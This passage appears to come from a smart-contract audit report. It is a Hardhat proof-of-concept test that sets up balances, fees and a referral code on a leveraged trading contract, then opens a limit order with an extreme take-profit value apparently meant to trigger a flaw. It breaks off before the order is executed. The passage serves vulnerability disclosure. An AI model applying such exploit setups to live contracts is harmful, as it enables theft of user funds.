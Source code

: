Insert the following code as test into `test/07.Trading.js` and run it with `npx hardhat test test/07.Trading.js`:

```javascript
describe("PoC", function () {
    it.only("PoC", async function () {
      // Setup token balances and approvals
      const mockDAI = await ethers.getContractAt("MockERC20", MockDAI.address)
      await mockDAI.connect(owner).transfer(user.address, parseEther("10000"))
      await mockDAI.connect(user).approve(trading.address, parseEther("10000"))
      const permitData = [
        "0",
        "0",
        "0",
        "0x0000000000000000000000000000000000000000000000000000000000000000",
        "0x0000000000000000000000000000000000000000000000000000000000000000",
        false
      ]

      // Create referral code
      await referrals.connect(user).createReferralCode(ethers.constants.HashZero)

      // Set the fees
      await trading.connect(owner).setFees(
        false,        // close
        "200000000",  // dao  
        "0",          // burn
        "100000000",  // referral
        "0",          // bot
        "0",          // percent
      )


      // ============================================================== //
      // =================== Create the limit order =================== //
      // ============================================================== //
      const tradeInfo = [
        parseEther("1"),          // margin amount
        MockDAI.address,          // margin asset
        StableVault.address,      // stable vault
        parseEther("2"),          // leverage
        0,                        // asset id
        false,                    // direction (short)
        "115792089237316195423570985008687907854269984665640564039467",          // take profit price
        parseEther("0"),       // stop loss price
        ethers.constants.HashZero // referral (ourself)
      ];

      // Create the order
      await trading.connect(user).initiateLimitOrder(
        tradeInfo,            // trade info
        1,                    // order type (limit)
        parseEther("1000"),   // price
        permitData,           // permit
        user.address          // trader
      )


      // ============================================================== //
      // =================== Execute the limit order ================== //
      // ============================================================== //

      // Wait for some blocks to pass the delay
```